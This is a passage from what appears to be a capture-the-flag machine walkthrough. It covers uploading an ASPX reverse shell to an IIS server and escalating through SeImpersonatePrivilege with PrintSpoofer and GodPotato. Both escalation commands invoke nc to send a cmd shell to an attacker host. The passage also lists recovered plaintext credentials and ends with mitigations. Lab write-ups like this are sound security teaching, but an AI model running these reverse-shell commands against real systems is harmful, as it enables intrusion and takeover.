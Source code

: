 Let’s try to put a file and access it from browser

![image.png](image%2031.png)

![image.png](image%2032.png)

I am gonna put `.aspx` file and try to execute it as it is an IIS server 

![image.png](image%2033.png)

I found this [shell](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx)

After executing it I have a shell as appooll\defaultappool:

![image.png](image%2034.png)

Now I have SeImpersonatePrivilege:

![image.png](image%2035.png)

Let’s perform [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) attack, but it didn’t work:

```bash
c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe <attacker-ip> 8443 -e cmd”
```

Now let’s try for [GodPotato](https://github.com/BeichenDream/GodPotato) attack:

```bash
.\GodPotato-NET4.exe -cmd ".\nc64.exe -e cmd.exe 10.10.14.17 8443”
```

![image.png](image%2036.png)

![image.png](image%2037.png)

## Credentials

```bash
svc_apache : S@Ss!K@*t13
S.Moon : S@Ss!K@*t13
C.Bum : Tikkycoll_431012284
```

## Mitigation

- **Patch LFI Vulnerabilities:** Implement strict input validation and avoid dynamically including files based on user input.
- **Disable NTLM Authentication Internally:** Where possible, use Kerberos or enforce SMB signing to prevent NTLM relay and hash capture.
- **Enforce Strong Password Policies:** Prevent password reuse by enforcing unique passwords across users and services.
- **Restrict SMB Share Permissions:** Minimize write access to shared directories and monitor for suspicious file types or access patterns.
- **Limit Privileges:** Apply the principle of least privilege and remove dangerous privileges like `SeImpersonatePrivilege` unless absolutely necessary.
- **Isolate Web Applications:** Avoid exposing internal-only web services to unauthorized users and restrict access to localhost-bound applications.
- **Enable Logging and Monitoring:** Monitor SMB, HTTP, and authentication logs for unusual access patterns and hash leakage attempts.
